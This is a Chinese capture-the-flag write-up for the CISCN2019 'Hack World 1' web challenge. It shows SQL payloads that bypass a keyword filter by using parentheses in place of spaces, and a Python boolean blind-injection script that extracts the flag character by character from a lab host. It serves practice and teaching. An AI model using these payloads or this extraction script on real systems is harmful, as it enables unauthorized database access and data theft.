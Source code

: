 # [CISCN2019 华北赛区 Day2 Web1]Hack World 1

- 经测试未发现注入点，而且对某些关键字进行了过滤

> <img src="../../IMG2/Screenshot 2024-06-06 194018.png">

- 进行Fuzz测试，发现很多关键字都被过滤了，但是括号没有过滤，所以可以用括号代替空格

> <img src="../../IMG2/Screenshot 2024-06-06 195209.png">

- 确认存在注入点，这道题已经告诉了数据表与字段，则可以直接查询数据。

`(select(1)from(flag))`

> <img src="../../IMG2/Screenshot 2024-06-06 201807.png">

`(select(2)from(flag))`

> <img src="../../IMG2/Screenshot 2024-06-06 201911.png">

- 这里不能直接查询flag，参数id的值不能为字符，考虑到查询失败时会返回 `bool(false)` ，我们可以使用布尔盲注，这里我们挨个查询flag每个字符的ascii码，如果正确，则会返回 `Hello, glzjin wants a girlfriend.` ，第一个字符一般都是f。

`(select(ascii(mid(flag,1,1))=102)from(flag))`

> <img src="../../IMG2/Screenshot 2024-06-06 202605.png">

- 查询成功，确认第一个字符为f，接下来的内容使用脚本完成，得到flag

```py
import requests
import string

url = 'http://b64e2d49-8ca0-4102-a2fd-fa16acc7fbb0.node5.buuoj.cn:81/index.php'
strings = string.printable
flag = ''
for count in range(1, 60):
    for char in strings:
        payload = f'(select(ascii(mid(flag,{count},1))={ord(char)})from(flag))'
        response = requests.post(url, {'id': payload})
        if 'Hello' in response.text:
            flag += char
            print(flag)
```

> <img src="../../IMG2/Screenshot 2024-06-06 205940.png">